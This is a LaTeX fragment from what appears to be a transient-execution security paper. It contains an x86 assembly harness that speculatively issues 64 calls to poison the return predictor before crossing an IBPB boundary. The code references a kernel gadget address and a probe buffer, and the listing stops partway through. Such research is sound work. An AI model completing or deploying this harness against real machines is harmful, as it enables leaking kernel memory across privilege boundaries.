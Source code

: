 \documentclass[11pt,a4paper]{article}
\begin{document}
\paragraph{Training-in-Transient-Execution (TTE) call cascade.}
The assembly harness \texttt{pbinc\_entry} executes a forward skip, then a backward \texttt{JE} whose predicate is delayed by reading from \texttt{\_\_slow\_predicate\_ptr}. In the mispredicted path, it issues a loop of 64 \texttt{call} sites via \texttt{\_\_alias\_tbl[i]}; none of these calls retire architecturally. This strictly-transient cascade overflows and biases return prediction state without observable architectural side effects.\cite{trujillo2023inception}

\begin{lstlisting}[language={[x86masm]Assembler}, caption={Training‑in‑Transient‑Execution harness (\texttt{pbinc\_entry}): a backward‑mispredicted \texttt{JE} opens a speculative window to issue 64 calls via \texttt{\_\_alias\_tbl}, then a \texttt{syscall} crosses the IBPB boundary and the thread parks in a spin loop.}, label={lst:pbinc-asm}]
global pbinc_entry
extern __pbinc_kernel_gadget_addr     ; From C driver: patched with KVA of kernel gadget
extern __pbinc_probe_shared           ; From C driver: VA of shared probe buffer (1MB)
extern __alias_tbl                    ; Runtime-patched: array of 64 callsite trampoline entry pointers
extern __slow_predicate_ptr           ; Runtime: mapped slow memory (used to delay JE resolution)

section .text

;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
; Entry point for the PB-Inception userland training harness
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
pbinc_entry:
    call pre_ibpb_transient_train   ;Run transient training before IBPB
    mov  rax, 39                    ; getpid -> syscall entry (IBPB boundary)
    syscall                         ; Cross IBPB boundary (causes entry-IBPB in guest)
.spin:
    pause                           ; Not kill threat -> inf loop -> keep-alive threat
    jmp  .spin

;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
; Pre-IBPB transient training block
; - Uses a backward mispredicted JE to speculatively execute call cascade
; - No call here retires (training must be transient-only)
; => 64 calls -> return predictor pressure
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
pre_ibpb_transient_train:
    jmp  .do_branch                ; Skip call cascade architecturally (forward jump)
                                   ; Under normal (architectural) execution, the call cascade never runs
                                   ; Means if the "normal" paths are taken it wouldnt run


\end{lstlisting}
\end{document}
